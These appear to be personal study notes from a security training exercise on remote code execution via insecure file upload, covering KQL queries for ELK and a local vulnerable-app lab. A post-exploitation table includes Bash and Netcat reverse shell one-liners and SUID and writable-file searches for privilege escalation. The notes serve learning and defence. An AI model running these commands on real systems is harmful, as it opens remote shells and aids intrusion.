

# Notes for Day3

## Theme: **Remote Code Execution (via insecure file upload)**

## Links

- [Investigating with ELK 101](https://tryhackme.com/r/room/investigatingwithelk101)
- [Advanced ELK Queries](https://tryhackme.com/jr/advancedelkqueries)
- [Open Source Railway Management System](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System)
  
## General

- KQL Cheat Sheet:

| Query/Syntax | Description                                                                                     | Example                             |
|--------------|-------------------------------------------------------------------------------------------------|-------------------------------------|
| `" "`        | The two quotation marks are used to search for specific values within the documents. Values in quotation marks are used for exact searches. | `"TryHackMe"`                      |
| `*`          | The asterisk denotes a wildcard, which searches documents for similar matches to the value provided. | `United*` (would return United Kingdom and United States) |
| `OR`         | This logical operator is used to show documents that contain either of the values provided.     | `"United Kingdom" OR "England"`    |
| `AND`        | This logical operator is used to show documents that contain both values.                      | `"Ben" AND "25"`                   |
| `:`          | This is used to search the (specified) field of a document for a value, such as an IP address. Note that the field you provide here will depend on the fields available in the index pattern. | `ip.address: 10.10.10.10`          |

- Some commands that can be run following a successful RCE exploit:
  
| Command                                          | Use                                                                                                  |
|--------------------------------------------------|------------------------------------------------------------------------------------------------------|
| `ls`                                             | Will give you an idea of what files/directories surround you.                                        |
| `cat`                                            | Outputs the contents of documents such as text files.                                                |
| `pwd`                                            | Shows your current location in the system.                                                          |
| `whoami`                                         | Displays the current user in the system.                                                            |
| `hostname`                                       | Shows the system name and potentially its role in the network.                                       |
| `uname -a`                                       | Provides system information like the OS, kernel version, and more.                                  |
| `id`                                             | Displays the groups assigned to the current user.                                                   |
| `ifconfig`                                       | Provides details about the system's network setup.                                                  |
| `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1`      | Begins a reverse shell via Bash.                                                                    |
| `nc -e /bin/sh <your-ip> <port>`                 | Begins a reverse shell via Netcat.                                                                  |
| `find / -perm -4000 -type f 2>/dev/null`         | Finds SUID (Set User ID) files, useful in privilege escalation attempts.                            |
| `find / -writable -type f 2>/dev/null | grep -v "/proc/"` | Identifies writable files, often useful for privilege escalation attempts. |

- Install XAMPP
- Download RW Mgmt System
- Deploy MySQL Database
- Update file permissions on ORRS-PHP to allow web file uploads
- Upload shell
- Voila:

## Glossary

- **RCE**: Uploading a script that the server runs gives the attacker control over it.
- **XSS**: Uploading an HTML file that contains an XSS code which will steal a cookie and send it back to the attacker's server.
